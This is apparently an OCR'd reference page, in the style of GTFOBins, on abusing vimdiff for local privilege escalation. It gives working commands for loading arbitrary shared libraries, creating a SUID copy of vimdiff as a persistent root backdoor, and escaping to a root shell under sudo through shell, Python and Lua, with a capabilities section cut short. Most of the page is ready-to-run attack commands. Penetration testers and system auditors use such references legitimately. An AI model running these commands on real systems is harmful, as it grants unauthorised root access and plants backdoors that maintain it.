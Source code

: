## Library load

It loads shared libraries that may be used to run code in the binary execution context.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
vimdiff -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo install -m =xs $(which vimdiff) .

./vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo vimdiff -c ':!/bin/sh'
```

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `vimdiff` is compiled with Lua support.

```
sudo vimdiff -c ':lua os.execute("reset; exec sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.
